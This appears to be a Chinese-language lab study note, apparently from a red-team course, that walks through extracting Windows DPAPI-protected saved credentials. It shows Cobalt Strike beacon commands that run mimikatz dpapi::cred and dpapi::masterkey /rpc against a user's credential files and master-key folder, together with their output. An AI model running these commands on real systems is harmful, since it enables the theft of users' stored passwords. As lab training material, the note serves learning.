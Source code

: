 Data Protection API (DPAPI)是windows里的一个组件，专门用于存储RDP或者第三方软件如谷歌chrome里的数据

在srv-1上操作

![img](https://github.com/maxzxc0110/hack-study/blob/main/img/1659883791874.png)

在wkstn-1上操作


![img](https://github.com/maxzxc0110/hack-study/blob/main/img/1659884133595.png)


存有bfmaer密码


![img](https://github.com/maxzxc0110/hack-study/blob/main/img/1659884225306.png)

留意guidMasterKey


![img](https://github.com/maxzxc0110/hack-study/blob/main/img/1659884392247.png)

```
beacon> mimikatz dpapi::cred /in:C:\Users\bfarmer\AppData\Local\Microsoft\Credentials\9D54C839752B38B233E5D56FDD7891A7
[*] Tasked beacon to run mimikatz's dpapi::cred /in:C:\Users\bfarmer\AppData\Local\Microsoft\Credentials\9D54C839752B38B233E5D56FDD7891A7 command
[+] host called home, sent: 788077 bytes
[+] received output:
**BLOB**
  dwVersion          : 00000001 - 1
  guidProvider       : {df9d8cd0-1501-11d1-8c7a-00c04fc297eb}
  dwMasterKeyVersion : 00000001 - 1
  guidMasterKey      : {a23a1631-e2ca-4805-9f2f-fe8966fd8698}
  dwFlags            : 20000000 - 536870912 (system ; )
  dwDescriptionLen   : 00000030 - 48
  szDescription      : Local Credential Data

  algCrypt           : 00006603 - 26115 (CALG_3DES)
  dwAlgCryptLen      : 000000c0 - 192
  dwSaltLen          : 00000010 - 16
  pbSalt             : f8fb8d0f5df3f976e445134a2410ffcd
  dwHmacKeyLen       : 00000000 - 0
  pbHmackKey         : 
  algHash            : 00008004 - 32772 (CALG_SHA1)
  dwAlgHashLen       : 000000a0 - 160
  dwHmac2KeyLen      : 00000010 - 16
  pbHmack2Key        : e8ae77b9f12aef047664529148beffcc
  dwDataLen          : 000000b0 - 176
  pbData             : b8f619c20d96b775f913dad8962ca4bc2bbb9061679ca753b708e28f093d1a1fa3ca193adf7bc9ab1e52fa6784f6b397f329d139f274eef9b665ae843d5e22859792f8f0db15bf4cba64d77e027c177d8540446e5053e1a20b321904212e334fe5cf91a0a31e6c6bbbb674efca8368bdf159edef723291d50356c7154c8d846f1e41defa7c9e998b28cc420660c4b78f1558ca65d49901231707c9ea7a026fb2932d61f4d2bc8cfa88abc6a1a3b493fe
  dwSignLen          : 00000014 - 20
  pbSign             : 2e12c7baddfa120e1982789f7265f9bb94208985

  ```

留意跟guidMasterKey一样的文件夹
1659884555240.png


```
beacon> ls C:\Users\bfarmer\AppData\Roaming\Microsoft\Protect\S-1-5-21-3263068140-2042698922-2891547269-1120
[*] Tasked beacon to list files in C:\Users\bfarmer\AppData\Roaming\Microsoft\Protect\S-1-5-21-3263068140-2042698922-2891547269-1120
[+] host called home, sent: 115 bytes
[*] Listing: C:\Users\bfarmer\AppData\Roaming\Microsoft\Protect\S-1-5-21-3263068140-2042698922-2891547269-1120\

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
 740b     fil     03/01/2022 14:22:42   1f242f0d-c827-4673-b768-0a544a0b72cd
 740b     fil     05/24/2021 09:09:04   a1f5745d-f392-4469-8f43-c104ef032f8a
 740b     fil     02/21/2021 11:49:40   a23a1631-e2ca-4805-9f2f-fe8966fd8698
 740b     fil     01/20/2022 15:35:21   bdb76a61-a735-415b-a111-11072928a892
 928b     fil     02/21/2021 11:49:40   BK-DEV
 740b     fil     07/23/2022 02:17:28   f0a666c6-7653-4334-9632-45d945137eac
 24b      fil     07/23/2022 02:17:28   Preferred
```

执行
```
mimikatz dpapi::masterkey /in:C:\Users\bfarmer\AppData\Roaming\Microsoft\Protect\S-1-5-21-3263068140-2042698922-2891547269-1120\a23a1631-e2ca-4805-9f2f-fe8966fd8698 /rpc
```



